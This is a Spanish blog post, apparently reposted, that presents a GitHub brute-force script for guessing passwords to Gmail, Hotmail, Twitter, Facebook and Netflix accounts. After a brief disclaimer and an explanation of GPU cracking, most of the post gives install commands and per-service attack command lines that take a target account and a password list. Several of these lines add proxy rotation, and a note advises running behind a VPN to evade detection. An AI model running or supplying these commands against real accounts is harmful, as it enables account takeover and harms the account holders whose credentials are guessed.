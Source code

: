 ```yaml
---
title: 'Ataques de fuerza bruta a GMAIL, HOTMAIL, TWITTER, FACEBOOK & NETFLIX'
date: 2019-10-07T17:45:00+01:00
draft: false
---
```


[![](https://1.bp.blogspot.com/-iHhOaEZly7o/XZtrPFEBgZI/AAAAAAAALFw/cWgr3tIjWsMBT0veWe8ndOnh-aQmOEPtgCLcBGAsYHQ/s640/login-1203603_960_720.png)](https://1.bp.blogspot.com/-iHhOaEZly7o/XZtrPFEBgZI/AAAAAAAALFw/cWgr3tIjWsMBT0veWe8ndOnh-aQmOEPtgCLcBGAsYHQ/s1600/login-1203603_960_720.png)

  

**_Esta herramienta ha sido creada con el propósito de concienciar y educar sobre seguridad, no deben ser usadas contra sistemas que no han proporcionado el permiso explicito para probar / atacar. Podrías terminar en la cárcel._**  

  

Los ataques de fuerza bruta son simples y confiables. Los atacantes dejan que una computadora haga el trabajo; por ejemplo, prueban diferentes combinaciones de nombres de usuario y contraseñas, hasta que encuentran una que funciona. Se estima que el 5% de los incidentes confirmados de violación de datos(data breaches) en 2017 se debieron a ataques de fuerza bruta.

  

  

  

ATAQUES DE FUERZA BRUTA POR GPU

La combinación de la CPU y la unidad de procesamiento de gráficos **([GPU](https://es.wikipedia.org/wiki/Unidad_de_procesamiento_gr%C3%A1fico))** acelera la potencia de cómputo al agregar los miles de núcleos de cómputo en la GPU al procesamiento para permitir que el sistema maneje múltiples tareas simultáneamente. El procesamiento de GPU se usa para aplicaciones de análisis, ingeniería y otras aplicaciones de computación intensiva y se puede descifrar contraseñas 250 veces más rápido que una CPU sola.

  

Para ponerlo en perspectiva, una contraseña de seis caracteres que incluye números tiene aproximadamente 2 mil millones de combinaciones posibles. Descifrarlo con una CPU potente que intenta 30 contraseñas por segundo lleva más de dos años. Al agregar una única y potente tarjeta GPU, la misma computadora puede probar 7,100 contraseñas por segundo y descifrar la contraseña en 3.5 días.

  

### Ataques de fuerza bruta por el script Brute\_Force

  

Este script permite realizar una serie de ataques a diferentes servicios como Bacebook, twitter hasta llegar a servicios como Netflix, este script lo podemos encontrar en su repositorio de GitHub desde el siguiente enlace [brute\_force](https://github.com/Matrix07ksa/Brute_Force)

  

[https://github.com/Matrix07ksa/Brute\_Force](https://github.com/Matrix07ksa/Brute_Force)

  

![alt text](https://camo.githubusercontent.com/a08cdabfe91b0b12cac64d869e293477ac44d247/68747470733a2f2f362e746f7034746f702e6e65742f705f3132393239397a3063312e706e67)

_Uso de la aplicación_

  

_![alt text](https://camo.githubusercontent.com/10aaff8f56fe5823698ed677e5b324d8fabcc780/68747470733a2f2f312e746f7034746f702e6e65742f705f31323932357a796b32322e706e67)_

_Ataques con fuerza bruta_

  

#### **Instalador**

```


  
pip install proxylist

  
  

  
pip install mechanize

  

```

  

**Uso**

  

#### **BruteForce Gmail Attack**

```


  
python3 Brute\_Force.py -g Account@gmail.com -l File\_list

  
  

  
python3 Brute\_Force.py -g Account@gmail.com -p Password\_Single

  

```

#### **BruteForce Hotmail Attack**

```


  
python3 Brute\_Force.py -t Account@hotmail.com -l File\_list

  
  

  
python3 Brute\_Force.py -t Account@hotmail.com -p Password\_Single

  

```

#### **BruteForce Twitter Attack**

```


  
python3 Brute\_Force.py -T Account\_Twitter -l File\_list

  

  
python3 Brute\_Force.py -T Account\_Twitter -l File\_list -X proxy-list.txt

  

```

#### **BruteForce Facebook Attack**

```


  
python3 Brute\_Force.py -f Account\_facebook -l File\_list

  

  
python3 Brute\_Force.py -f Account\_facebook -l File\_list -X proxy-list.txt

  

```

  

#### **BruteForce Netflix Attack**

  

  

  
  

```


  
يفضل تشغيل VPN

  
Start On Vpn  

  
python3 Brute\_Force.py -n Account\_Netflix -l File\_list

  

  
python3 Brute\_Force.py -n Account\_Netflix -l File\_list -X proxy-list.txt

  

```

  

  

Fuente: [https://backtrackacademy.com/](https://backtrackacademy.com/articulo/ataques-de-fuerza-bruta-a-gmail-hotmail-twitter-facebook-netflix)

No olvides Compartir... 

  

Siguenos en twitter: [@disoftin](http://twitter.com/disoftin) - [@fredyavila](http://twitter.com/fredyavila)